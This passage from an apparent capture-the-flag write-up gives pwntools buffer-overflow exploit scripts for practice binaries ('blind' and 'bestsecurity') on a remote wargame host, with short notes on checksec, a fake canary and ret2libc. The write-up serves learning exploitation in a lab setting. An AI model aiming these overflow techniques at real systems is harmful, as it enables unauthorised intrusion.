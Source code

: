 ```
#!/usr/bin/python3

from pwn import *

#p = process('./blind')
p = remote('plsdonthaq.me', 2002)

padding = 'A' * 72
ret = p32(0x080484d6)

p.sendline(padding.encode() + ret)

p.interactive()
```

## Bestsecurity

---

FLAG{REDACTED}

---

Ah yes. Fake canaries.

1. While I was told that this would be a canary challenge, `checksec` did not say the same thing. Somehow I believe `checksec` more.
2. A simple scan of the disassembly told me that all I had to do was overwrite an integer with the value 1234, which it was comparing with.
3. While we did not need to override the return address, if you could, it would be the same as the first one. Except this one would be a ret2libc, as the stack is non-executable.

```
#!/usr/bin/python3

from pwn import *

p = remote('plsdonthaq.me', 2003)
#p = process('./bestsecurity')

padding = 'A' * 128
p.sendline(padding + '1234')

p.interactive()
```

## Stack-dump

---

FLAG{REDACTED}

---
